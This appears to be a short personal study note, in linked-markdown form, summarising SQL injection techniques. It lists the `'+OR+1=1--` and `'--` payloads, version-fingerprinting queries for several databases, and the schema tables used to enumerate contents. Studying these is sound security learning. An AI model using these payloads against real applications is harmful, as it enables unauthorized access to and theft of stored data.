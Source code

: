 # Retrieving hidden data

simple attack -> `'+OR+1=1--`  [[WEB/vulnerabilities/SQL Injection/attack/payload#Retrieving hidden data#simple attack|example]]
## Examining the database

- database type and version [[WEB/vulnerabilities/SQL Injection/attack/payload#Examining the database|examples]]
	- _Microsoft, MySQL_ -> `SELECT @@version`
	- _PostgreSQL_ -> `SELECT version()`
	- _Oracle_ -> `SELECT * FROM v$version`
## Listing the contents 

- _Oracle_ [[WEB/vulnerabilities/SQL Injection/attack/payload#Listing the contents|examples]]
  - `all_tables`
  - `all_tab_columns`
- _all other databases_ -> `information_schema` 
  - `information_schema.tables`
  - `information_schema.columns`
# Subverting application logic

simple attack -> `'--` [[WEB/vulnerabilities/SQL Injection/attack/payload#Subverting application logic#simple attack|example]]
/gitcomm
